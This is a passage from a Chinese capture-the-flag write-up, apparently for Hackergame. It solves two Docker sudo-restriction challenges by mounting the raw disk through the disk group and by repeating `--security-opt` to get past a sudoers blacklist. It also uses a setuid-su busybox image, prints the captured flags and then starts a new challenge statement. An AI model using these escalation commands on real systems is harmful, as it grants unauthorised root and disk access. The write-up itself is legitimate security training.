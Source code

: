 没有网络但是可以 rz ，我们在本地 `docker save alpine` 传到远程的 `/tmp`

`brw-rw----    1 root     disk      253,  16 Nov  7 17:09 /dev/vdb`

注意到了吗？ sudo 只是不让我们用 root 和 0 ,没说不让用 disk 呀。

所以可以

`sudo docker run --rm -u 1000:1000 --user 1000:disk -it -v /dev/vdb:/flag --privileged alpine`

`flag{dONT_1OAD_uNTRusT3D_1ma6e_ace6f481a2_plz!}`

感觉不像是预期解，估计是想要我们做一个自己的 suid 上去的。


来看第二小题：

### Unbreakable! 

先看看 `sudo -l`

```bash
User user may run the following commands on dockerv:
    (root) NOPASSWD: /usr/bin/docker run --rm --security-opt\=no-new-privileges
        -u 1000\:1000 *, /usr/bin/docker image load, !/usr/bin/docker * -u0*,
        !/usr/bin/docker * -u?0*, !/usr/bin/docker * --user?0*,
        !/usr/bin/docker * -ur*, !/usr/bin/docker * -u?r*, !/usr/bin/docker *
        --user?r*, !/usr/bin/docker * --privileged*, !/usr/bin/docker *
        --device*
```

一样的幽默黑名单，写两次 `security-opt` 就可以 root

当然我们先构造一个带自己的 suid 和 passwd 的 dockerfile :

```Dockerfile
FROM busybox
COPY passwd /etc/passwd
RUN chmod +s /bin/su
CMD ["sh"]
```

`docker build` 好传上去，然后跑它：

`sudo docker run --rm --security-opt=no-new-privileges -u 1000:1000 -it --security-opt=no-new-privileges=false -v /dev:/devv hack`

su 后虽然还是不能直接操作 device ,但是我们可以 chmod 777 后回到主机，就可以 cat /dev/vdb 了。

`flag{contA1N3R_R0ot_i5_4cCESsIb1e_ec962b15bf}`

## 动画分享

> 为了给同学分享动画片，小 T 启动了自己之前用超安全的 Rust 语言写的 Web server，允许你访问「当前目录」的文件，当然了，flag 可不在当前目录。不过因为快到饭点了，小 T 还没来得及复制视频文件到对应的目录，于是就只在自己最常使用的、**几年前编译的某祖传终端模拟器**里面跑起了自己的 fileserver，然后就去锁屏吃饭了。
小 T：「诶，我不过就分享个文件，而且目录里面也没别的东西，所以没关系吧～而且我特地搞了个 chroot，就算我真写出了什么漏洞，你也休想看到我的 flag！」
请提交一个程序，题目环境会在模拟小 T 的环境运行之后，降权运行你的程序：
如果你能让小 T 的 fileserver 无法正常响应请求（例如让 fileserver 退出），你可以获得第一小题的 flag。
第二小题的 flag 在 /flag2，你需要想办法得到这个文件的内容。
环境限制总 PID 数为 64。


  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp